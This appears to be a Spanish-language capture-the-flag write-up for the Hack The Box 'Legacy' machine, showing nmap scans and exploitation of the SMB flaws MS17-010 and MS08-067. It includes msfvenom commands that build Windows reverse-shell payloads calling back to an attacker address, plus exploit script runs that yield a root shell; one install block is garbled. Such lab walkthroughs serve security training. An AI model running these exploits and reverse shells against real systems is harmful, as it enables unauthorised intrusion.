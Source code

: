 #  LEGACY MACHINE

**Autor: Christian Jimenez**

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/1.PNG)

## ESCANEO Y ENUMERACION

vamos a realizar un escaneo con nmap:

```
nmap -p- --open -T5 - v -n 10.10.10.4 -oG allPorts
```

La salida nos muesta los sigueinets puertos:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/2.PNG)

Vamos a realizar una enumeracion de los servicios en los puertos:

```
nmap -p139,445,3389 -sV -sC 10.10.10.4 -oN targeted
```

este es el resultado:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/3.PNG)

## EXPLOTACION

Como vemos que tiene el servicio smb habilitado, vamos a correr algunos script de nmap para detectar vulnerabilidades sobre ese servicio:

```bash
nmap -p445 --script=smb-vuln-* 10.10.10.4
```

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/4.PNG)

vemos que es vulnerable a **MS-17-010** y **MS-08-067**

podriamos ejecutar cualquiera de ambos y es lo que vamos a hacer.

### MS-17-010

para este caso encontre un script llamado **send_and_execute.py**:

[https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

```bash
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010
```

nos creamos una reverse shell en **.exe** malicioso con msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4242 EXITFUNC=threads -f exe -a x86 --platform windows -o shell.exe
```

y lo que hace este script es enviar un ejecutable a la maquina windows y ejecutarlo automaticamente, nos colocamos en escucha con netcat y ejecutamos.

**se necesita instalar impacket**

```bash
#python2
apt install python2
python2
wget ```python
https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python2 -m pip install .

#python3
apt install python3
python3
apt install python3-pip
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
python3 -m pip install .
```

de acuerdo a con que version de python instalaste impacket ejecutas python o python3:

```bash
python send_and_execute.py 10.10.10.4 shell.exe
```

estamos dentro como root y podemos ver la flag:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/5.PNG)

### MS08-067

hay un script en github que nos ayudara: [https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067](https://github.com/areyou1or0/OSCP/blob/master/Scripts%20-%20MS08-067)

modificamos el exploit cambiando la shellcode por uno que vamos a generar:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4545 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

lo reemplazamos y ejecutamos.

**debe estar impacket instalado como en el anterior caso, de preferencia instalado con python2**

tiene unas opciones el script por sistema operativo:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/6.PNG)

nos funciono con la opcion 6 asi que ejecutamos:

```bash
python ms08-067.py 10.10.10.4 6 445
```

en la escuhca en netcat ya ingresamos como root a la maquina:

![foto](https://raw.githubusercontent.com/kriko69/CTF-writeups/main/HTB/LEGACY/images/7.PNG)

de igual forma podemos ver las flags.